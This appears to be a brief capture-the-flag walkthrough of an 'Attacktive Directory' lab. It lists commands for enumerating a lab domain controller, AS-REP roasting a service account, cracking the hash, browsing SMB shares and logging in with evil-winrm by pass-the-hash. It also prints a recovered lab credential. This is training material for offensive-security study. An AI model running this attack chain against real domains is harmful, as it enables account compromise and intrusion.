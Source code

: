 # Attacktive Directory

### Enumeration

```bash
enum4linux 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption><p>scanning port 139/445</p></figcaption></figure>

kerbrute

```powershell
 ./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.176.12  userlist.txt 
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

impacket-GetNPUsers

```bash
impacket-GetNPUsers spookysec.local/svc-admin -dc-ip 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

hashcat

```
hashcat -m 18
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### smbclient

```
smbclient -L //10.10.176.12  -U "svc-admin"
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
smb://ip/backup
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
backup@spookysec.local:backup2517860
{% endhint %}



<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>



```bash
evil-winrm -u <user> -H "hash" -i ip
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>
